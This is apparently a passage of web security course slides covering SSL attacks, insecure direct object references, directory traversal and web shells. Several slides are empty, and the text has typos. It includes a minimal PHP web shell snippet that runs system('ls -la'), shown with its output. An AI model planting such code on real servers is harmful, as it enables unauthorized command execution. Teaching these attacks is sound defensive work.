- _SSL BEAST_ exploits TLS version 1.0 vulnerability in SSL
  - The victim is infected with malicious JavaScript that captures encrypted cookies and enables the attacker
cookies and authentication tokens.
- _SSL hijacking_ is when an attacker passes forged authentication keys to both the user and application 
  - Sets up what appears to be a secure connection when but it's actually a MitM attack
- _SSL stripping_ downgrades a HTTPS connection to HTTP by intercepting the TLS authentication

---
## Insecured Direct Access Attacks

- This is a general category of several attacks
- _Direct Object Access:_ Attackers can access configuration files and other system resource
- _Insecure Direct Object Reference:_ Attackers can access files or resources they shouldn't by looking for access patterns
- _Directory Traversal:_ Attacker can drop into underlying file system and manipulate system files and directories
- _Web Shell:_ Attacker is able to gain access to the command shell on the host system

---

## Direct Object Access Attack

- Exploits a badly configured server environment
- Configuration and other files that manage the server are accessible to users
- A common cause is keeping these files in the document root directory or a subdirectory
- The contents of the file can be accessed via a web shell attack
- Particularly dangerous when the attacker can run exectuable files
- Mitigated by following best practices for servers and application configuration

---

## Insecure Direct Object Reference



Notes:

Image Credit:panning.com/blog/insecure-direct-object-reference-web-based-application-security-part-6/

---

## Insecure Direct Object Reference


- Attacker is able to access implementation objects directly by guessing at their reference
  - For example, guessing that the administrator account has account id "1" in the previous slide
- Cause of a 2002 data breech at H&R Block where users' account number appeared in the URL
  - Changing the number in the URL allowed access to other customers' accounts




Notes:

Image Credit: www.cnet.com/tech/services-and-software/breach-exposes-h-r-block-customers-tax-records/

---
## Insecure Direct Object Reference Mitigations


---


## WebShell Attack

- A webshell attack occurs when an attacker is able to run shell commands on a server
- Intent is to gain escalation of privileges and persistent access to the machine
- Exploits the ability of web programming languages to run shell commands
- For example, accessing shell commands via php:

```html
<?php
// Return the listing of the directory where the file runs (Linux)
system("ls -la");
?>

--> total 12
drwxrwxr-x 2 secuser secuser 4096 Feb 27 20:43 .
drwxr-xr-x 6 secuser secuser 4096 Feb 27 20:40 ..
-rw-rw-r-- 1 secuser secuser 26 Feb 27 20:41 shell.php
```
---

## Encryption

Notes:

---


## Unsecured Direct Object Access

- Happens when implementation objects are exposed
  - Eg. Configuration files, credentials, SQL queries
- These objects can then be modified or destroyed
- If implementation directories are accessible
  - Attackers can add new files to compromise the system
- 

Notes:

---

## Hidden URL Authorization Failure

Notes:

---

## Cross Site Request Forgery


Notes:

---

## Labs

* Goat labs

